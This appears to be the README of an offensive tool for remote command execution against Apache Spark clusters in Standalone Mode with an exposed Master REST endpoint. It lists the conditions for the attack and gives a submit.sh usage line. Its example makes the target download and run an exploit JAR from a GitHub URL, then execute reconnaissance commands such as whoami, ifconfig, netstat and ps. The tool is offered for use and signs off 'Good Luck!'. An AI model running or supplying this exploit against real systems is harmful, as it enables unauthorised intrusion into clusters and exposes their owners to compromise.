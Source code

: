 //黑掉大数据之Spark : https://weibo.com/ttarticle/p/show?id=2309404187794313453016


# Remote Command Execution Over Spark

## Conditions
1. Spark is running on Standalone Mode.
2. REST URL of Master is accessible.

## How to use

```bash
./submit.sh spark_rest_url spark_version jar_url commands
```

### Example

```bash
./submit.sh \
1.1.1.1:6066 \
2.2.0 \
https://github.com/aRe00t/rce-over-spark/raw/master/Exploit.jar \
"whoami,w,cat /proc/version,ifconfig,route,df -h,free -m,netstat -nltp,ps auxf"
```

### Result
![](media/15133242895615.png)

![](media/15133243117653.png)

![](media/15133243161989.jpg)

Good Luck!

![](media/15133243206133.jpg)


